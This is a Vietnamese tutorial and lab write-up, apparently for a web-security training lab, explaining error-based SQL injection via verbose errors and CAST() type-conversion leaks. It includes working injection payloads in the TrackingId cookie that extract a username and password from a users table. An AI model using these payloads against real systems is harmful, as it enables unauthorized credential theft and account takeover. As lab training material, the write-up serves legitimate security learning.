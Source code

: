 # Extracting sensitive data via verbose SQL error messages

Cấu hình sai của cơ sở dữ liệu đôi khi dẫn đến việc hiển thị **thông báo lỗi chi tiết** (verbose error messages). Những thông tin này có thể hữu ích cho kẻ tấn công. Ví dụ, xem xét thông báo lỗi sau, xuất hiện khi chèn một dấu nháy đơn **(')** vào **tham số id**:

    Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char

Thông báo này tiết lộ **toàn bộ truy vấn SQL** mà ứng dụng đã tạo từ đầu vào. Có thể thấy rằng đầu vào đang được chèn vào một chuỗi được bao bọc bởi dấu nháy đơn trong câu lệnh **WHERE**.

Thông tin này giúp kẻ tấn công dễ dàng hơn trong việc xây dựng một truy vấn hợp lệ chứa payload độc hại. Ví dụ, kẻ tấn công có thể sử dụng ký tự chú thích **(--)** để vô hiệu hóa phần còn lại của truy vấn, từ đó tránh lỗi cú pháp do dấu nháy đơn dư thừa gây ra.

# Extracting sensitive data via verbose SQL error messages - Continued

Đôi khi, kẻ tấn công có thể **khiến ứng dụng tạo ra một thông báo lỗi chứa dữ liệu được trả về từ truy vấn**. Điều này biến một lỗ hổng SQL injection dạng mù (blind SQL injection) thành có thể quan sát được (visible SQL injection).

Một cách để làm điều này là sử dụng hàm **CAST()**, cho phép chuyển đổi kiểu dữ liệu. Ví dụ, giả sử truy vấn chứa câu lệnh sau:

    CAST((SELECT example_column FROM example_table) AS int)

Thông thường, dữ liệu mà kẻ tấn công muốn đọc là **chuỗi ký tự** (string). Nếu cố gắng chuyển đổi chuỗi này sang một kiểu dữ liệu không tương thích, chẳng hạn như **số nguyên** (int), truy vấn có thể gây ra lỗi tương tự như sau:

    ERROR: invalid input syntax for type integer: "Example data"

Loại truy vấn này cũng có thể hữu ích nếu ứng dụng **giới hạn độ dài ký tự**, khiến kẻ tấn công không thể sử dụng các phương pháp như **phản hồi có điều kiện (conditional responses)** để khai thác SQL injection.

# Lab: Visible error-based SQL injection

![img](161)

Truy cập lab:

![img](162)

Chọn category Pets và intercept request trong Burp Suite: 

![img](163)

=> Website sử dụng Tracking cookie để theo dõi hành vi của người dùng. Thử thêm dấu **'** vào giá trị TrackingId: 

![img](164)

Send request và quan sát response: 

![img](165)

=> Website trả về thông báo lỗi *Unterminated string literal started at position 53 in SQL SELECT * FROM tracking WHERE id = 'aLFRLQuf2ZMDGk4B' '. Expected  char*. 

Thử thêm **'--**:

![img](166)

Send request, quan sát response: 

![img](167)

=> Website không trả về lỗi. Thử chèn **' AND CAST((SELECT 1) AS int)--**: 

![img](168)

Send request, quan sát response: 

![img](169)

=> Website trả về lỗi *ERROR: argument of AND must be type boolean, not type integer Position: 63*

=> Điều kiện **AND** phải là biểu thức boolean. Thử chèn **' AND 1=CAST((SELECT 1) AS int)--**: 

![img](170)

Send request, quan sát response: 

![img](171)

=> Website không trả về lỗi => đây là 1 truy vấn hợp lệ. Chỉnh sửa truy vấn thành **' AND 1=CAST((SELECT username FROM users) AS int)--**:

![img](172)

Send request, quan sát response: 

![img](173)

=> Website trả về lỗi *Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'aLFRLQuf2ZMDGk4B' AND 1=CAST((SELECT username FROM users) AS'. Expected  char*

Nhận thấy truy vấn chèn đang bị rút gọn, có thể do giới hạn ký tự => không có phần chỉ định comment (--). Xóa giá trị TrackingId và gửi lại request: 

![img](174)

Send request, quan sát response: 

![img](175)

=> Website trả về lỗi *ERROR: more than one row returned by a subquery used as an expression*. 

=> Thông báo lỗi cho thấy truy vấn đã được chạy đúng, nhưng vẫn gặp lỗi vì nó trả lại nhiều hơn một hàng.

Chỉnh sửa lại truy vấn để nó chỉ trả về 1 hàng: **' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--**:

![img](176)

Send request, quan sát response: 

![img](177)

=> Website trả về thông báo lỗi *ERROR: invalid input syntax for type integer: "administrator"*

=> Thông báo lỗi tiết lộ tên người dùng đầu tiên từ bảng users là **administrator**.

Chỉnh sửa payload thành **' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--**: 

![img](178)

Send request, quan sát response: 

![img](179)

=> Tìm ra password của người dùng đầu tiên: l6pt2ypstrizz9jrjtmr

Login tài khoản administrator và solved bài lab: 

![img](180)











